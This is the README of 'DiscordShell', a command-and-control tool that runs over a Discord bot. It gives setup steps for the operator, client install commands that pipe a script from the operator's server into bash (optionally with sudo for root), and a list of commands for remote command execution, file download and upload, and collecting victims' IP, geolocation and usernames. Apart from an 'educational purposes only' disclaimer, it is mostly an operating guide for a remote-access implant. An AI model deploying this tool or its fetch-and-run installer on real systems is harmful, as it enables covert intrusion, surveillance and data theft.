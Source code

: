 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Screenshots

Instant notifications on client join.
![Instant notifications on client join.](/img/clientJoin.png)

Easy access to basic client information.
![Easy access to basic host information.](/img/clientHosts.png)

Client latency information request.
![Support for executing arbitraty non-interactive commands.](/img/clientPing.png)

[!] SHELL: Support for executing any arbitraty non-interactive commands.
![SHELL: Support for executing any arbitraty non-interactive commands.](/img/clientCommand.png)

Support for uploading files to the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientUpload.png)

Support for downloading files from the client.
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientDownload.png)

At-will client deauthorization.
![Instant notifications on client join.](/img/clientKill.png)

## Setup

### Discord

1. Follow [these instructions](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Save the bot token for later use.
3. Create a C2 channel in your discord; this is where the bot will accept commands. Copy the channel ID and save it for later.
4. Copy your user ID and save it for later use.

### Host

1. Edit the variables `apitoken`, `debug`, and `allowed_users` inside `shell.py` with the information you saved earlier.
2. Run `build.sh` to yield an executable.
3. Edit the variables `$srcip` and `$srcport` inside of `install.sh` to contain the IP address and port of the server hosting the shell.
4. Host the executable (`shell`) and `installer.sh` at `$scrip:$scrport`.

### Client

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

## Supported Features & Syntax

All supported commands are prefixed with `?`.
 - `?hosts`: Request the following information for every active client:
    - IP address; click to navigate instantly to `whois.domaintools.com/${IP}`
    - Alpha-2 country code of residence
    - Estimated location coordinates; click to instantly navigate to `google.com/maps?q=${latitude},${longitude}`
    - Detected operating system
    - EUID (permissions)
    - Username and hostname
    - The service provider of the internet connection
 - `?cmd ${client_id} ${command}`: Executes a command on a specified client. Command result will be returned in a discord message.
    - Example: `?cmd abcd1234 whoami`
    - Example: `?cmd abcd1234 ls -la`
 - `?download ${client_id} ${path}`: Download specified file from client. Data will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?download abcd1234 file.txt`
    - Example: `?download abcd1234 /home/user/picture.png`
 - `?upload ${client_id} ${path}`: Upload a file to a specified client. Status message will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?upload abcd1234 resource.sql`
    - Example: `?upload abcd1234 /usr/sbin/function.sh`
 - `?kill ${client_id}`: Terminate a specified client. Status message will be returned in a discord message.
    - Example: `?kill abcd1234`

## Limitations
 - The shell is only supported on Linux. Plan to eventually support Windows and MacOS.
 
## Plans
 - MacOS and Windows support.
 - Better error handling.
 - Comprehensive logging.
 - Support for larger file uploading/downloading.
